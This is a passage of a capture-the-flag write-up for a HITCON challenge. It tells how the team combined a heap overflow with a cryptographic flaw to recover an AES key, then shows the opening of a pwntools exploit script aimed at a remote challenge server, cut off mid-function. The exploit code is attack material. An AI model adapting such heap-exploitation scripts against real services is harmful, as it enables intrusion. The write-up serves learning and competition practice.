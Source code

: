 Personally, we think this is the best challange we've ever done (by kevin47 and sasdf). This challange was first opened by our team members who solve crypto. They discussed for a long time and couldn't find any cryptographic flaw. However, they did found the heap overflow vulnerability. After that, I entered this challange to see if the vulnerability can be exploited. But it was just impossible, the length and the content of the overflow both couldn't be controlled, so it will definitely mess up the next chunk size and the lower 4 bytes of fd.

Then it comes a funny situation.
* I claimed that it was impossible to pwn the binary without solving the crypto part.
* sasdf claimed that it was impossible to solve the crypto part without pwning.

So we were basically deadlocked XD.

It the end, it turns out that we were both right. We had to create a cryptographic flaw using the overflow, use the flaw to get the AES key and therefore we could pwn the binary. Thanks to HITCON for such an awesome challange!


#### Code

```python
#!/usr/bin/env python2

from pwn import *
from IPython import embed
from Crypto.Cipher import AES
import pickle

context.arch = 'amd64'

r = remote('52.194.203.194', 21700)

def add(idx, typ, sz, data):
    r.sendlineafter('exit', '1')
    r.sendlineafter('index:', str(idx))
    r.sendlineafter('type:', str(typ))
    r.sendlineafter('size:', str(sz))
    r.sendafter('Note:', data)

def show(idx):
    r.sendlineafter('exit', '2')
    r.sendlineafter('index:', str(idx))
    return r.recvline()

def delete(idx):
    r.sendlineafter('exit', '3')
    r.sendlineafter('index:', str(idx))

add(2, 1, 0x11, '\x00'*0x11)
x = show(2)
blocks = [0]*4
for i in range(2):
    blocks[i] = int(x[32*i:32*(i+1)], 16)
    #print '%x' % blocks[i]

# leak iv
#key = '1111111111111111'
key = '$#@!zxcvasdfqwer'
iv = ('%032x' % blocks[0]).decode('hex')
aes_iv = AES.new(key, AES.MODE_CBC, '\x00'*16)
iv = aes_iv.decrypt(iv)
print 'iv:', iv.encode('hex')

def ciphertext2plain(cipher):
    global key, iv
    last = cipher[-16:]
```